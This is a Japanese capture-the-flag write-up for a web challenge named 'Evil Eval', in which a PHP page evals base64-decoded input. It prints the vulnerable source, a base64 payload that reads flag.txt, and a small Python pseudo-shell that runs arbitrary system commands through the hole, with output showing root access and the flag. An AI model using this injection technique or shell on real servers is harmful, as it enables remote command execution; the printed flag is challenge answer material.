

# Evil Eval:Web:86pts
シーザー暗号の次は, base64をデコードするページを実装したらしい。  
とはいえ, この実装ってあまり良くないんじゃ......  
flag.txtが同じディレクトリにあるらしいから, それを読みだしてこの実装の危険性を教えてあげて。  
[http://34.82.49.144:3337/](http://34.82.49.144:3337/)  
[show.php](show.php)  

# Solution
URLにアクセスするとbase64をデコードしてくれるサイトのようだ。  
base64 decoder  
[site.png](site/site.png)  
`U2F0b2tp`を入力すると`http://34.82.49.144:3337/show.php?data=U2F0b2tp`へリダイレクトし、以下のエラーと結果が表示された。  
  
evalを呼んでいるらしい。  
ソースが配布されているので見ると、以下のようになっている。  
```php
<?php
$result = "";
    if (isset($_GET['data'])) {
        $data = $_GET['data'];
        $raw = base64_decode($data);
        eval('$result = ' . $raw . ';');
    }
?>
<html>
<head>
    <meta charset="utf-8">
    <title>result</title>
</head>
<body>
    <h1>結果</h1>
    <p><?= $result ?></p>
</body>
</html>
```
eval内でflag.txtを読み出してやればよい。  
`fgets(fopen('flag.txt','r'))`をbase64エンコードした`ZmdldHMoZm9wZW4oJ2ZsYWcudHh0JywncicpKQ==`を渡す。  
flag  
[flag.png](site/flag.png)  
flagが表示された。  
別解としては、`http://34.82.49.144:3337/flag.txt`にアクセスしてもflagが見えていた。  
1st bloodで暇だったので、以下のように疑似シェルを作ってflag.txtを読み出してみた。  
```python:satokishell.py
# -*- coding: utf-8 -*-
import requests
import base64
import re

while True:
    cmd = input("(>3<)$ ").encode("utf-8")
    data = base64.b64encode(b"system('"+cmd+b"')").decode("utf-8")
    res = requests.get("http://34.82.49.144:3337/show.php?data="+data)
    res = re.sub("<html>\n<head>\n<meta charset=\"utf-8\">\n<title>result</title>\n</head>\n<body>\n<h1>結果</h1>\n<p>.*</p>\n</body>\n</html>", "", res.text)
    res = (res+"\n").replace("\n\n", "\n")
    print(res, end="")
```
実行する。  
```bash
$ ls
satokishell.py
$ python satokishell.py
(>3<)$ ls
flag.txt
index.php
show.php
(>3<)$ cat flag.txt
taskctf{eval_1s_b4d_h4bit}
(>3<)$ uname -a
Linux 1f2f79acd76f 4.19.0-12-cloud-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64 GNU/Linux
(>3<)$ whoami
root
```
rootだった(゜Д゜)。  

## taskctf{eval_1s_b4d_h4bit}